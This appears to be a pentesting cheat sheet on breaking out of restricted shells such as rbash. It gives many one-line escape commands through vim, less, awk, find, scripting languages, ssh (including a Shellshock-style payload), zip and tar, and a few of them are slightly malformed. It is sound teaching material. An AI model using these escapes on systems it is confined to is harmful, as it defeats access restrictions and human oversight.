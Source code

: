 # Getting Out of Restrictive Shells

<details>

<summary>What is Restrictive shell?</summary>

* A shell that blocks/restricts some commands like (`ls`, `cd`, `echo`)&#x20;
* Blocks environment variables like `SHELL`, `PATH`, `USER`&#x20;

- Restricted shell can be `rbash`, `rksh`, `rsh` (check using: `echo $SHELL`)

</details>

<details>

<summary>What to enumerate for</summary>

*   Commands like `cd`, `ls`, `echo`

    * `echo $PATH`
      * `ls -la /usr/home/tom/usr/bin` --> to know what commands I can run


* Operators like `>`, `>>`, `<`, `|`
* Check for presence of programming lang (perl, ruby, python)
* Check what commands user can run as root
* Check file with SUID perm
* Check environmental variables (`env`, `printenv`)

</details>

<details>

<summary>Common Exploitation Techniques</summary>

* If Vi/vim allowed --> `vi --cmd ':set shell=/bin/sh|:shell'`

```bash
vim
:set shell=/bin/bash
:shell
```

* If `/` is allowed --> run `/bin/bash` or `/bin/sh`
* If `cp` is allowed --> copy `/bin/sh` or `bin/bash` to your directory
* From FTP, `more`, `man`, `less`, `vim`--> `!/bin/sh` or `!/bin/bash`

- From `rvim` --> `python import os; os.system("/bin/bash")`
- From `scp` --> `scp -S /path/yourscript x y`
- From awk --> `awk 'BEGIN {system("/bin/sh or /bin/bash")`
- From find --> `find / -name test -exec /bin/sh or /bin/bash`

* For lshell, `echo os.system('/bin/bash')`

</details>

<details>

<summary>Programming Languages Techniques</summary>

* Expect (used to automate repetitive tasks)

```bash
expect spawn sh
sh
```

* Python

```bash
python -c 'import os; os.system("/bin/sh")'
```

* PHP

```php
php -a
exec("sh -i");
```

* Perl

```perl
perl -e 'exec "/bin/sh";'
```

* Lua

```
os.execute('/bin/sh')
```

* Ruby

```bash
exec "/bin/sh"
```

</details>

<details>

<summary>Fix Path (Linux)</summary>

```bash
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:$PATH
```

</details>

<details>

<summary>Advanced Techniques</summary>

* SSH

```bash
ssh username@IP - t "/bin/sh"
```

```bash
ssh username@IP -t "bash --noprofile"
```

```bash
ssh username@IP -t "() { :; }; /bin/bash
```

```bash
ssh -o ProxyCommand="sh -c /tmp/yourfile.sh"
127.0.0.1
```

* Git

1. `git help status`
2. `!/bin/bash`

* Pico

1. `pico -s "/bin/bash"`
2. `/bin/bash`
3. CTRL-T

* Zip

```bash
zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c
/bin/bash"
```

* Tar

```bash
tar cf /dev/null testfile --checkpoint=1 --checkpointaction=exec=/bin/bash
```

</details>
